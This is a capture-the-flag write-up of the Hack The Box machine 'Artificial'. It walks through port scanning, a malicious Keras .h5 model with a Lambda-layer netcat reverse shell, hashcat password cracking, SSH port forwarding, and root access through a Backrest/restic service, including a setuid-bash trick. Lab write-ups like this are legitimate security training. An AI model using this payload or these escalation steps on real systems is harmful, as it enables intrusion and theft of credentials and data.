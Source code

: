 ```yaml
---
title: Artificial - HTB
date: 2025-06-26 14:00:00 +0200
categories: [Hack The Box, Linux0]
tags: [ Linux , File-Upload , Service-Abuse ]
toc: true
comments: true
image: ./assets/img/attachments/Artificial-1.png
imageNameKey: Artificial
---
```

Hey Everyone! Today I'm going to demonstrate how I pwned Artificial machine from hack the box, it's 7/1000 write-up. Lets goo!
## Port Enumeration
lets see what we have open for this ip:
```bash
sudo nmap -sS 10.10.11.74 -F -Pn -A
```
I started with -F to speed the process, then will run -p-
```bash
Nmap scan report for 10.10.11.74
Host is up (0.43s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   390.30 ms 10.10.16.1
2   199.20 ms 10.10.11.74
                                                                 
```
note: -p- didn't show anything new
I will check the website running on port 80 until full port enumeration is done.
After taking a close look on this web app, and creating an account, there was a requirements file at the upload section
![](/assets/img/attachments/Artificial.png)
```
Please ensure these requirements are installed when building your model, or use our Dockerfile to build the needed environment with ease.
```

So we need an .h5 file with this requirements, we have two options:
	1- either to use this tensorflow version
	2- or to use the docker file downloaded from this web page
	
![](/assets/img/attachments/Artificial-2.png)
building this docker
```bash
sudo docker build -t my-tf-container .
```
![](/assets/img/attachments/Artificial-3.png)

to be able to mount codes from the directory of my host:
```bash
sudo docker run -it -v $(pwd):/code my-tf-container
```

We will use this code to trigger a reverse shell. Why does this work?  
The web application allows users to upload `.h5` files without any validation. These files are based on the HDF5 format and can contain embedded Python objects. Keras uses `pickle` internally to deserialize custom objects when loading these model files. And by  including a malicious pickled object in the `.h5` file, it will lead to Remote Code Execution (RCE) during deserialization.
## Initial Access
I tried several codes with the help of ChatGPT but didn't trigger the reverse shell, but this one did 
[exploit code from github](https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py)

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.66 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
![](/assets/img/attachments/Artificial-4.png)
Now after uploading this file and triggering it by `view predicitons` (Which the run_model endpoint)
RCE was triggered and we got the reverse shell!
![](/assets/img/attachments/Artificial-5.png)
## Lateral Movement
with more digging in those directories
![](/assets/img/attachments/Artificial-6.png)

I downloaded this file to my machine by 
```bash
python3 -m http.server (victim)
curl http://10.10.11.74:8000/users.db --output users.db (my machine)
```
Its sqlite file
![](/assets/img/attachments/Artificial-7.png)

Since there are multiple users, and to avoid wasting time, we can focus on the initial access we already have. In the `/home` directory, we find two user folders: `app` (which is our current user) and `geal`
lets try to crack geal pass
```bash
hashcat -m 0 c99175974b6e192936d97224638a34f8 /usr/share/wordlists/rockyou.txt
```
![](/assets/img/attachments/Artificial-8.png)
And got the password!
And i logged in as gael using ssh!
## Service Abuse
Then I ran linpeas, I didn't get any direct exploits, but active ports catches my eyes
![](/assets/img/attachments/Artificial-9.png)

port 5000 runs artificial.htb locally but what's on 9898?
using this command for port forwarding
```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

![](/assets/img/attachments/Artificial-10.png)
There's this service running, but it has no direct public exploits. So the question here is: **what is this service?**

Running `backrest -h` reveals that it's a binary named `backrest` that exposes several command-line flags. This helped confirm that the service is **Backrest**, a web-based UI wrapper for the `restic` backup tool. It's intended to manage and automate backups in a self-hosted environment. It supports multiple repository backends — such as local storage, SFTP, S3, B2, and others supported by `restic` — and allows users to configure and schedule backups directly from the web interface.
since its a backup tool, i went back to linpeas output
![](/assets/img/attachments/Artificial-11.png)
There's backrest backup file!
I couldn't extract its content although i have read permission on it, because tar is recreating a folder to insert the uncompressed content in it and i don't have permissions to mkdir in this directory!
I transferred the file to my machine using http server, or u can copy it to geal user folder and uncompressed it there
In config.json:
![](/assets/img/attachments/Artificial-12.png)
we have bcrypt hash password which base 64 encoded

```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```
To find hashcat mode
```bash
hashcat -h | grep bcrypt
```
and got the password using hashcat
```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -a 0
```
logging in with this user
I created Restic repo
![](/assets/img/attachments/Artificial-13.png)

Then from running help command in Run Command option it was clear that i can backup any file (this service runs with root permission)
The easy way is to get the root flag and we can do the same to get root priv ssh key
![](/assets/img/attachments/Artificial-14.png)
![](/assets/img/attachments/Artificial-15.png)
We need the id 60... to be used with dump command
![](/assets/img/attachments/Artificial-16.png)
And to get ssh key
![](/assets/img/attachments/Artificial-17.png)
![](/assets/img/attachments/Artificial-18.png)
And ROOTED!!
## Extra Tip
I saw another neat root method where someone abused the `--restic-cmd` flag and used an environment variable like `RESTIC_PASSWORD_COMMAND='/bin/chmod +s /bin/bash'` to make bash setuid and get root — definitely a clever trick.
![](/assets/img/attachments/Artificial-19.png)
